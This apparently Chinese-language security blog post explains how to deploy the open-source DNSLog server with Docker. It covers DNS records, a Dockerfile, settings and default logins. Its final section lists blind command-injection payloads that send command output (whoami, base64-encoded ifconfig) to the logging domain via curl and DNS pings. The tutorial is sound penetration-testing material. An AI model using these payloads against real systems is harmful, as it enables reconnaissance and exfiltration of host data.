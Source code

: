 Title:使用docker搭建dnslog服务器：python版开源cloudeye的部署
Date: 2018-01-04 10:20
Category: 工具相关
Tags: dnslog,docker
Slug: 
Authors: bit4
Summary: python版开源cloudeye的部署



本文档主要记录使用docker搭建dnslog的过程。

https://github.com/BugScanTeam/DNSLog

感谢[草粉师傅](https://github.com/coffeehb)的帮助

### 0x0、域名和配置

搭建并使用 DNSLog，需要拥有两个域名：

1. 一个作为 NS 服务器域名(例:code2sec.com)：在其中设置两条 A 记录指向我们的公网 IP 地址（无需修改DNS服务器，使用运营商默认的就可以了）：

```
ns1.code2sec.com  A 记录指向  10.11.12.13
ns2.code2sec.com  A 记录指向  10.11.12.13
```

2. 一个用于记录域名(例: 0v0.com)：修改 0v0.com 的 NS 记录为 1 中设定的两个域名（无需修改DNS服务器，使用运营商默认的就可以了）：

```
NS	*.0v0.com	ns1.code2sec.com
NS	*.0v0.com	ns2.code2sec.com
```

<u>注意：按照dnslog的说明是修改NS记录，但是自己的部署中修改了好几天之后仍然不正常，就转为修改DNS服务器，而后成功了。修改DNS服务器之后就无需在域名管理页面设置任何DNS记录了，因为这部分是在DNSlog的python代码中实现的。</u>

![changeNameServer](img/docker+dnslog/changeNameServer.png)

### 0x1、docker镜像构造

dockerfile内容如下

```dockerfile
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y python && apt-get install python-pip -y && apt-get install git -y
RUN git clone https://github.com/BugScanTeam/DNSLog
WORKDIR /DNSLog/dnslog
RUN pip install -r requirements.pip

COPY ./settings.py /DNSLog/dnslog/dnslog/settings.py

COPY ./start.sh /DNSLog/dnslog/start.sh
RUN chmod +x start.sh
CMD ["./start.sh"]

EXPOSE 80
```

下载 `dnslog/dnslog/settings.py`并对如下字段进行对应的修改，保存settings.py：

```python
# 做 dns 记录的域名
DNS_DOMAIN = '0v0.com'

# 记录管理的域名, 这里前缀根据个人喜好来定
ADMIN_DOMAIN = 'admin.0v0.com'

# NS域名
NS1_DOMAIN = 'ns1.code2sec.com'
NS2_DOMAIN = 'ns2.code2sec.com'

# 服务器外网地址
SERVER_IP = '10.11.12.13'
```

创建一个dnslog的启动脚本，保存为start.sh：

```bash
#!/bin/bash
python manage.py runserver 0.0.0.0:80
```

准备好如上3个文件后，可以构建镜像了

```bash
docker build .
docker tag e99c409f6585 bit4/dnslog
docker run -d -it -p 80:80 -p 53:53/udp bit4/dnslog
#注意这个53udp端口，感谢CF_HB师傅的指导

docker exec -it container_ID_or_name /bin/bash
./start.sh
```



### 0x2、配置验证

使用nslookup命令进行验证，如果可以直接测试xxx.test.0v0.com了，说明所有配置已经全部生效；如果直接查询失败，而指定了dns服务器为 ns1.code2sec.com查询成功，说明dns服务器配置正确了，但是ns记录的设置需要等待同步或者配置错误。

```
nslookup
xxx.test.0v0.com
server ns1.code2sec.com
yyy.test.0v0.com
```

当然，在查询的同时可以登录网页端配合查看，是否收到请求。

在我自己的部署中，发现修改ns记录很久后仍然不能直接查询到 xxx.test.0v0.com，想到NS记录配置和DNS服务器设置都是修改解析的域名的服务器配置，就尝试修改了DNS服务器为 ns1.code2sec.com, 结果就一切正常了。



### 0x3、管理网站

后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**



### 0x4、payload使用技巧

兼容windows和linux的命令

```bash
ipconfig || ifconfig
#||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。

使用实例：
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com
```



命令优先执行

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边

测试效果如下:
root@ubuntu:~# echo `whoami`@bit4
root@bit4

E:\>echo %OS%@bit4
Windows_NT@bit4

使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```

![command_first](img/docker+dnslog/command_first.png)

消除空格

```bash
id|base64

使用实例：
curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法
curl test.0v0.com/`ifconfig|base64|tr '\n' '-'`
#将换行符替换为-，这个方法不是很方便，解密的时候还需要替换回来
```

![base64](img/docker+dnslog/base64.png)

window下的curl

```bash
start http://xxxxxxxxx.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```


